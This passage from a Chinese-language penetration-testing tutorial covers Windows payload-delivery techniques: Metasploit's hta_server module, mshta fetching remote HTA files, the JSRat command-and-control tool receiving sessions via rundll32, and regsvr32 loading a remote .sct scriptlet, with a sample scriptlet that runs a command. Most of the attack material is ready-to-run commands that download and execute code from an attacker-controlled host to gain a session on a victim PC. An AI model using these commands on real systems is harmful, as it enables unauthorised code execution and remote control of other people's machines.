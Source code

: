 方法2：Metasploit

```bash
use exploit/windows/misc/hta_server
msf exploit(windows/misc/hta_server) > set srvhost 192.168.1.109
msf exploit(windows/misc/hta_server) > exploit


# 目标上
mshta.exe http://192.168.1.109:8080/pKz4Kk059Nq9.hta
```



**2.然后再在目标机器执行前面生成的hta：**

```bash
mshta http://192.168.28.128/run.hta
```





### 12.rundll32

其实还是依赖于`WScript.shell`这个组件在这里我们使用`JSRat`来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序(项目地址：https://github.com/Hood3dRob1n/JSRat-Py.git)。

1.开始运行JSRat，监听本地8888端口。

```bash
./JSRat.py -i 192.168.0.115 -p 8888
```

2.通过url访问，可以查看到恶意代码，复制上面生成的代码

3.在受害者PC运行该代码，将成功返回一个会话





### 13.regsvr32

Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行

在目标机上执行：

```bash
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
# file.sct需要我们自己来构造
```

可以通过自己构造.sct文件中要执行的命令，去下载执行我们的程序(这里以弹计算器为例)：

```bash
<?XML version="1.0"?>
<scriptlet> 
    <registration progid="ShortJSRAT" classid="{10001111-0000-0000-0000-0000FEEDACDC}" > 
        <script language="JScript">
        <![CDATA[ ps = "cmd.exe /c calc.exe"; new ActiveXObject("WScript.Shell").Run(ps,0,true); ]]> 
        </script> 
    </registration> 
</scriptlet>
```
